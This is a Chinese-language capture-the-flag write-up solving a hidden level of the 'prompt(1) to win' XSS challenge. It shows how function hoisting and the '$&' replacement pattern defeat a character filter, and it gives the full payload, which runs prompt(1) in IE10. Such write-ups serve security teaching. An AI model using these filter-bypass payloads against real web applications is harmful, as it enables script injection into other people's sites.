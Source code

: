 ## [[prompt(1) to win](http://prompt.ml)] [[Level H1 - Hoisting](http://prompt.ml/-1)] [[解题报告](https://exp-blog.com/safe/ctf/prompt/level-h1-hoisting/)]

------

## 题目（隐藏关卡）

```javascript
function escape(input) {
    // WORLD -1

    // strip off certain characters from breaking conditional statement
    input = input.replace(/[}<]/g, '');

    return '                                                     \n\
<script>                                                         \n\
    if (history.length > 1337) {                                 \n\
        // you can inject any code here                          \n\
        // as long as it will be executed                        \n\
        {{injection}}                                            \n\
    }                                                            \n\
</script>                                                        \n\
    '.replace('{{injection}}', input);
}
```

------------

## 分析

从代码可以知道，注入点在 `if` 内部，很自然有三种思路：

- 使得 `history.length > 1337` 条件成立
- 闭合 `if`
- 闭合 `<script>`

但是由于 `}` 和 `<` 被过滤了，因此不论闭合 `if` 还是 `<script>` 都是不可能的，剩下的方法就是想办法令到 `history.length > 1337` 条件成立。

------------

## 前置知识

- [history](http://www.w3school.com.cn/jsref/dom_obj_history.asp)
- [Function length](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Function/length)
- [Function Hoisting](https://elegantcode.com/2011/03/24/basic-javascript-part-12-function-hoisting/)
- [String.prototype.replace()](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/String/replace)

------------

## 解题思路

这三个知识点是这题的解题关键。

关于 `history` 对象，需要知道的是它不可被直接读写，目前唯一保留的 API 只有 4 个：`length` 、 `back()` 、 `forward()` 、 `go()` 。

而在本题中用到的 `length` ，它会在首次打开浏览器窗口的时候置 0 ，每访问一个新得页面自动 +1 。但是这个特性并不能被利用来解题，原因是 `length` 的上限值是 50，而条件中的目标值是 1337 ，即使我们预先访问了 1337 个页面， `length` 的值还是 50 ，仍然无法绕过条件。

------------


但这并不意味着毫无办法了：因为 `history` 说到底就是一个全局对象，我们可以构造一个同名的 `history` 对象（必定是局部对象）实现对全局对象的覆盖。同时只要所构造的这个 `history` 局部对象同样具备 `length` 属性，且可以被我们自由控制，那么就能实现 `if` 条件绕过了。

既然可以使用局部对象覆盖，那么就有两个选择：

- 局部变量（如数组）：可以初始化数组的元素个数控制 `length` 属性
- 局部函数 ：可以通过声明入参的个数控制 `length` 属性

但是不要忘了，我们的注入点是在 `if` 里面的，亦即不管我们声明 `history` 局部函数、还是声明 `history` 局部变量，都是在 `history.length` 条件后面的位置，亦即会出现 **先使用后声明** 的语法错误。

------------


而为了解决这个问题，可以利用 Javascript 中的 Hoisting （提升）机制：在早期的 Javascript 编译器中，会把所有出现在代码中的 变量声明 或 函数声明，全部移到代码的开头。

不过 变量提升 和 函数提升 之间还是存在区别的：

- 变量提升：仅仅是把 声明变量的语句 提升到代码的开头，但是初始化语句还是保留在原有位置不变的，如果在初始化语句之前就使用了该变量，依然会出现语法错误（变量未定义）
- 函数提升：函数不存在初始化的说法，从而因为提升机制，使得函数只要在任意地方声明过一次，就可以在任何位置调用。

回到这题，由于注入点在 `if` 里面，所有我们应该选择函数提升，而不是变量提升。

> Javascript 的 Hoisting 机制仅在早期的编译器支持，现在 2019 年绝大部分浏览器都不会这样做了，经测试只有 IE10 还支持这种机制，换言之要用 Hoisting 机制解题，只能使用 IE10 浏览器。

------------

## 构造 payload

根据前面的思路，我们构造 payload 的方法为：在注入点声明一个 `history` 局部函数，函数入参数量至少为 1338 ，就能使得 `if` 条件成立，从而执行我们注入的代码。

例如 payload 为：

```javascript
funcation history(a1, a2, a3, ......, a1338) { /* any codes */ } prompt(1);
```

不过这个 payload 有个问题：就是我们要构造 `history` 函数，就需要使用到花括号 `{ }` ，但是 `}` 已经被题目过滤了 ！换言之我们不能直接输入 `}` 。

不能直接输入，但是可以间接输入。

绕过的方法需要利用到题目 JS 的 `replace('{{injection}}', input)` 函数的语法，第二个由我们控制的参数 input 是可以插入特殊变量名以达到某些效果的（详见 [这里](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/String/replace) ）：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%20H1%20-%20Hoisting/imgs/01.png)

而我们要使用的特殊变量名，就是

```
$&      // 这个变量名的效果是 【插入当前匹配的子串自身】。
```

就这题而言，因为 `replace('{{injection}}', input)` 被匹配的子串必定是 `{{injection}}`，利用 `$&` 将其插入到我们的 payload ，就能获得两对花括号 `{{ }}` 了，而里面的一对花括号会被编译器认为是局部代码块，因此并不会影响语法。

所以我们应该构造的 payload 为 ：

```javascript
funcation history(a1, a2, a3, ......, a1338) $& prompt(1);
```

当这个 payload 经过题目的 `replace('{{injection}}', input)` 函数处理，就会得到我们想要的效果：

```javascript
<script>
    if (history.length > 1337) {
        funcation history(a1, a2, a3, ......, a1338) {{injection}} prompt(1);
    }
</script>
```

------------

## 完成挑战

最后，输入这个 payload 到 IE10 即可完成挑战：

```javascript
function history(a1,a2,a3,a4,a5,a6,a7,a8,a9,a10,a11,a12,a13,a14,a15,a16,a17,a18,a19,a20,a21,a22,a23,a24,a25,a26,a27,a28,a29,a30,a31,a32,a33,a34,a35,a36,a37,a38,a39,a40,a41,a42,a43,a44,a45,a46,a47,a48,a49,a50,a51,a52,a53,a54,a55,a56,a57,a58,a59,a60,a61,a62,a63,a64,a65,a66,a67,a68,a69,a70,a71,a72,a73,a74,a75,a76,a77,a78,a79,a80,a81,a82,a83,a84,a85,a86,a87,a88,a89,a90,a91,a92,a93,a94,a95,a96,a97,a98,a99,a100,a101,a102,a103,a104,a105,a106,a107,a108,a109,a110,a111,a112,a113,a114,a115,a116,a117,a118,a119,a120,a121,a122,a123,a124,a125,a126,a127,a128,a129,a130,a131,a132,a133,a134,a135,a136,a137,a138,a139,a140,a141,a142,a143,a144,a145,a146,a147,a148,a149,a150,a151,a152,a153,a154,a155,a156,a157,a158,a159,a160,a161,a162,a163,a164,a165,a166,a167,a168,a169,a170,a171,a172,a173,a174,a175,a176,a177,a178,a179,a180,a181,a182,a183,a184,a185,a186,a187,a188,a189,a190,a191,a192,a193,a194,a195,a196,a197,a198,a199,a200,a201,a202,a203,a204,a205,a206,a207,a208,a209,a210,a211,a212,a213,a214,a215,a216,a217,a218,a219,a220,a221,a222,a223,a224,a225,a226,a227,a228,a229,a230,a231,a232,a233,a234,a235,a236,a237,a238,a239,a240,a241,a242,a243,a244,a245,a246,a247,a248,a249,a250,a251,a252,a253,a254,a255,a256,a257,a258,a259,a260,a261,a262,a263,a264,a265,a266,a267,a268,a269,a270,a271,a272,a273,a274,a275,a276,a277,a278,a279,a280,a281,a282,a283,a284,a285,a286,a287,a288,a289,a290,a291,a292,a293,a294,a295,a296,a297,a298,a299,a300,a301,a302,a303,a304,a305,a306,a307,a308,a309,a310,a311,a312,a313,a314,a315,a316,a317,a318,a319,a320,a321,a322,a323,a324,a325,a326,a327,a328,a329,a330,a331,a332,a333,a334,a335,a336,a337,a338,a339,a340,a341,a342,a343,a344,a345,a346,a347,a348,a349,a350,a351,a352,a353,a354,a355,a356,a357,a358,a359,a360,a361,a362,a363,a364,a365,a366,a367,a368,a369,a370,a371,a372,a373,a374,a375,a376,a377,a378,a379,a380,a381,a382,a383,a384,a385,a386,a387,a388,a389,a390,a391,a392,a393,a394,a395,a396,a397,a398,a399,a400,a401,a402,a403,a404,a405,a406,a407,a408,a409,a410,a411,a412,a413,a414,a415,a416,a417,a418,a419,a420,a421,a422,a423,a424,a425,a426,a427,a428,a429,a430,a431,a432,a433,a434,a435,a436,a437,a438,a439,a440,a441,a442,a443,a444,a445,a446,a447,a448,a449,a450,a451,a452,a453,a454,a455,a456,a457,a458,a459,a460,a461,a462,a463,a464,a465,a466,a467,a468,a469,a470,a471,a472,a473,a474,a475,a476,a477,a478,a479,a480,a481,a482,a483,a484,a485,a486,a487,a488,a489,a490,a491,a492,a493,a494,a495,a496,a497,a498,a499,a500,a501,a502,a503,a504,a505,a506,a507,a508,a509,a510,a511,a512,a513,a514,a515,a516,a517,a518,a519,a520,a521,a522,a523,a524,a525,a526,a527,a528,a529,a530,a531,a532,a533,a534,a535,a536,a537,a538,a539,a540,a541,a542,a543,a544,a545,a546,a547,a548,a549,a550,a551,a552,a553,a554,a555,a556,a557,a558,a559,a560,a561,a562,a563,a564,a565,a566,a567,a568,a569,a570,a571,a572,a573,a574,a575,a576,a577,a578,a579,a580,a581,a582,a583,a584,a585,a586,a587,a588,a589,a590,a591,a592,a593,a594,a595,a596,a597,a598,a599,a600,a601,a602,a603,a604,a605,a606,a607,a608,a609,a610,a611,a612,a613,a614,a615,a616,a617,a618,a619,a620,a621,a622,a623,a624,a625,a626,a627,a628,a629,a630,a631,a632,a633,a634,a635,a636,a637,a638,a639,a640,a641,a642,a643,a644,a645,a646,a647,a648,a649,a650,a651,a652,a653,a654,a655,a656,a657,a658,a659,a660,a661,a662,a663,a664,a665,a666,a667,a668,a669,a670,a671,a672,a673,a674,a675,a676,a677,a678,a679,a680,a681,a682,a683,a684,a685,a686,a687,a688,a689,a690,a691,a692,a693,a694,a695,a696,a697,a698,a699,a700,a701,a702,a703,a704,a705,a706,a707,a708,a709,a710,a711,a712,a713,a714,a715,a716,a717,a718,a719,a720,a721,a722,a723,a724,a725,a726,a727,a728,a729,a730,a731,a732,a733,a734,a735,a736,a737,a738,a739,a740,a741,a742,a743,a744,a745,a746,a747,a748,a749,a750,a751,a752,a753,a754,a755,a756,a757,a758,a759,a760,a761,a762,a763,a764,a765,a766,a767,a768,a769,a770,a771,a772,a773,a774,a775,a776,a777,a778,a779,a780,a781,a782,a783,a784,a785,a786,a787,a788,a789,a790,a791,a792,a793,a794,a795,a796,a797,a798,a799,a800,a801,a802,a803,a804,a805,a806,a807,a808,a809,a810,a811,a812,a813,a814,a815,a816,a817,a818,a819,a820,a821,a822,a823,a824,a825,a826,a827,a828,a829,a830,a831,a832,a833,a834,a835,a836,a837,a838,a839,a840,a841,a842,a843,a844,a845,a846,a847,a848,a849,a850,a851,a852,a853,a854,a855,a856,a857,a858,a859,a860,a861,a862,a863,a864,a865,a866,a867,a868,a869,a870,a871,a872,a873,a874,a875,a876,a877,a878,a879,a880,a881,a882,a883,a884,a885,a886,a887,a888,a889,a890,a891,a892,a893,a894,a895,a896,a897,a898,a899,a900,a901,a902,a903,a904,a905,a906,a907,a908,a909,a910,a911,a912,a913,a914,a915,a916,a917,a918,a919,a920,a921,a922,a923,a924,a925,a926,a927,a928,a929,a930,a931,a932,a933,a934,a935,a936,a937,a938,a939,a940,a941,a942,a943,a944,a945,a946,a947,a948,a949,a950,a951,a952,a953,a954,a955,a956,a957,a958,a959,a960,a961,a962,a963,a964,a965,a966,a967,a968,a969,a970,a971,a972,a973,a974,a975,a976,a977,a978,a979,a980,a981,a982,a983,a984,a985,a986,a987,a988,a989,a990,a991,a992,a993,a994,a995,a996,a997,a998,a999,a1000,a1001,a1002,a1003,a1004,a1005,a1006,a1007,a1008,a1009,a1010,a1011,a1012,a1013,a1014,a1015,a1016,a1017,a1018,a1019,a1020,a1021,a1022,a1023,a1024,a1025,a1026,a1027,a1028,a1029,a1030,a1031,a1032,a1033,a1034,a1035,a1036,a1037,a1038,a1039,a1040,a1041,a1042,a1043,a1044,a1045,a1046,a1047,a1048,a1049,a1050,a1051,a1052,a1053,a1054,a1055,a1056,a1057,a1058,a1059,a1060,a1061,a1062,a1063,a1064,a1065,a1066,a1067,a1068,a1069,a1070,a1071,a1072,a1073,a1074,a1075,a1076,a1077,a1078,a1079,a1080,a1081,a1082,a1083,a1084,a1085,a1086,a1087,a1088,a1089,a1090,a1091,a1092,a1093,a1094,a1095,a1096,a1097,a1098,a1099,a1100,a1101,a1102,a1103,a1104,a1105,a1106,a1107,a1108,a1109,a1110,a1111,a1112,a1113,a1114,a1115,a1116,a1117,a1118,a1119,a1120,a1121,a1122,a1123,a1124,a1125,a1126,a1127,a1128,a1129,a1130,a1131,a1132,a1133,a1134,a1135,a1136,a1137,a1138,a1139,a1140,a1141,a1142,a1143,a1144,a1145,a1146,a1147,a1148,a1149,a1150,a1151,a1152,a1153,a1154,a1155,a1156,a1157,a1158,a1159,a1160,a1161,a1162,a1163,a1164,a1165,a1166,a1167,a1168,a1169,a1170,a1171,a1172,a1173,a1174,a1175,a1176,a1177,a1178,a1179,a1180,a1181,a1182,a1183,a1184,a1185,a1186,a1187,a1188,a1189,a1190,a1191,a1192,a1193,a1194,a1195,a1196,a1197,a1198,a1199,a1200,a1201,a1202,a1203,a1204,a1205,a1206,a1207,a1208,a1209,a1210,a1211,a1212,a1213,a1214,a1215,a1216,a1217,a1218,a1219,a1220,a1221,a1222,a1223,a1224,a1225,a1226,a1227,a1228,a1229,a1230,a1231,a1232,a1233,a1234,a1235,a1236,a1237,a1238,a1239,a1240,a1241,a1242,a1243,a1244,a1245,a1246,a1247,a1248,a1249,a1250,a1251,a1252,a1253,a1254,a1255,a1256,a1257,a1258,a1259,a1260,a1261,a1262,a1263,a1264,a1265,a1266,a1267,a1268,a1269,a1270,a1271,a1272,a1273,a1274,a1275,a1276,a1277,a1278,a1279,a1280,a1281,a1282,a1283,a1284,a1285,a1286,a1287,a1288,a1289,a1290,a1291,a1292,a1293,a1294,a1295,a1296,a1297,a1298,a1299,a1300,a1301,a1302,a1303,a1304,a1305,a1306,a1307,a1308,a1309,a1310,a1311,a1312,a1313,a1314,a1315,a1316,a1317,a1318,a1319,a1320,a1321,a1322,a1323,a1324,a1325,a1326,a1327,a1328,a1329,a1330,a1331,a1332,a1333,a1334,a1335,a1336,a1337,a1338) $& prompt(1);
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%20H1%20-%20Hoisting/imgs/02.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
